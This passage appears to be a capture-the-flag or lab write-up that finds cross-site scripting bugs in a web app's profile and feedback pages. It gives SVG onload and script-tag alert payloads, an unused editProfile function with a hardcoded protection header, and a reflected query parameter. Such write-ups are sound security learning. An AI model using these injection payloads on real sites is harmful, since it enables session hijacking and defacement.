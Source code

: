 SVG payload of ```<svg/onload=alert(1) ``` however works - woot

```html
<li><svg onload="alert(1)" —="" pending="" review<i="" class="fas fa-user-clock" aria-hidden="true"></svg></li>
```

### Edit profile

The custom.js script has a function which is never actually called from the page

```javascript
function editProfile(e) {
  var t = new XMLHttpRequest;
  t.open('POST', 'api/action.php?act=editbio', !0),
  t.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded'),
  t.setRequestHeader('X-SAFEPROTECTION', 'enNlYW5vb2Zjb3Vyc2U='),
  t.onreadystatechange = function () {
    this.readyState === XMLHttpRequest.DONE && this.status
  },
  t.send('bio=' + encodeURI(msg))
}
```

Call it from the console

```javascript
editProfile('awesome bio');
```

And we get

```html
<p class="w-75 mx-auto mb-3">[object HTMLTextAreaElement]</p>
```

It seems to encode the msg textarea DOM object in the script, so intercept it and set msg to

```html
<script>alert('awesome bio')</script>
```

And we get - another one done

```html
<p class="w-75 mx-auto mb-3">
    <script>alert('awesome bio')</script>
</p>
```

### Msg request/query param

OK so looking at the functions in custom.js we can see the value of the msg request param reflected on the page eg.

```javascript
t.onreadystatechange = function () {
    this.readyState === XMLHttpRequest.DONE && 200 === this.status && (top.location.href = 'index.php?msg=Thanks, your feedback has been received. We appreciate you sharing your feedback.')
  },
```
